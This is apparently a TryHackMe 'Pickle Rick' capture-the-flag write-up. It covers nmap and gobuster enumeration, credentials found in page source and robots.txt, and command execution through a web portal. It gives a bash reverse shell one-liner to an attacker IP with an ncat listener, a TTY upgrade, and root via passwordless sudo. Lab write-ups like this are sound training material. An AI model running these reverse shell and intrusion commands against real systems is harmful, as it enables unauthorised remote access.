







# Writeup for [Pickle Rick](https://tryhackme.com/room/picklerick) from [Try Hack Me](https://tryhackme.com)
> Note: I will only be showcasing how to get **root** on the box, I will not answer any of the questions from the Try Hack Me room.


## Table of Content
1. [Information Gathering and Enumeration](#information-gathering-and-enumeration)
2. [Gaining Access](#gaining-access)
3. [Privilege Escalation](#privilege-escalation)

## Information Gathering and Enumeration
As usual, we are going to start things off with a simple nmap scan.  
```
nmap -sC -sV -oN nmap/initial -v 10.10.2.255
```
>Legend:
>1. -sC -> Use default scripts
>2. -sV -> Enumerate Versions
>3. -oN -> Output normal format.
>4. -v -> Verbose mode.

We can see port 22 and port 80 open, so we should definitely check out that web server first.  

We are prompted with some instructions to find **3** ingridients for Rick's pickle-reverse potion. Looking at the webpage itself we don't see anything that could help us, so we should check the source code of the page to see if there are any hints there.  

  

We can see a comment that gives us a potential username `R1ckRul3s`. We should write that to a file so we can potentially brute-force it if needed.

After that we should run a directory fuzzing tool. I'm going to run a tool called `gobuster`.

```
gobuster dir -u http://10.10.2.255/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/raft-small_root -x php,html,txt
```	
>Legend:
>1. dir -> Directory fuzzing mode
>2. -u -> URL
>3. -w -> Wordlist to use
>4. -o -> Output results
>5. -x -> Extensions

It is good practice to run gobuster with some extensions to not only look for directories, but to also search for files commonly found in a web application.

While that's running in the background, we should check for some low hanging fruit. I'm gonna try the file `robots.txt`, because sometimes we can see some juicy info from that file.

We can check for that just by typing `http://[VICTIM IP]/robots.txt`.  

  

Hitting that page, we can only see `Wubbalubbadubdub`. This might potentially be a password so we can try to login to ssh with the username `R1ckRul3s` that we found earlier. But it looks like we can't login to SSH using this user.

Going back to gobuster, we see a **login.php** page.

  

## Gaining Access

Looks like we are prompted with a login page and we could try those credentials earlier with **Wubbalubbadubdub** as the password.

  

After logging in, we are redirected to a **portal.php** page. Looks like we can execute commands from this webapp.  

  

Since we can execute commands remotely, let's get ourselves a reverse shell. I have this bash reverse shell memorized, but there is an online resource for reverse shell one-liners by [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
bash -c 'bash -i >& /dev/tcp/10.4.7.210/9001 0>&1'
```
> Replace 10.4.7.210 and 9001 with your own Try Hack Me VPN IP Address and desired port.

We also need to setup a listener on our attacker machine **first** before executing this bash reverse shell on the web app. You might need to use `nc` instead of `ncat`.
```
ncat -lnvp 9001
```
>Legend:
>1. -l -> Listen
>2. -n -> Don't resolve hostnames via DNS
>3. -v -> Verbose mode
>4. -p -> Specify Port Number


Running that bash reverse shell after we setup our listener, we should get a shell as **www-data**.  

  

We should upgrade our shell to a full tty session.
Run this command on the remote host.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

After that hit `Ctrl + Z` on your keyboard to background the netcat process, and type `stty size` to get the rows and columns of your terminal.

Then run `stty raw -echo` on your terminal. After running that command, hit `fg` and press `Enter` twice. ( Note: You won't see `fg` being typed to your terminal ). You should now be back to your remote connection on the box.

After that, set the rows and columns with `stty rows [number of rows] cols [number of columns]` from the `stty size` command.
Finally, type `export TERM=xterm` on the remote victim.

This full session gives us a few things:
1. Sometimes, programs want a full tty session before executing ( like `sudo` is sometimes a bit wonky when you don't have a proper shell, even though this is not always the case. )
2. We have **tab** autocomplete for commands and we can clear the screen.
3. We are able to use terminal applications like vim or nano without breaking the formatting of our terminal.

## Privilege Escalation

After getting our reverse shell, we should try the low hanging fruit. I always start with `sudo -l` to see if my current user can run sudo commands.

Looks like that our user **www-data** can run sudo on everything,anywhere, and **without** a password. We can just run `sudo bash` to get a root shell.

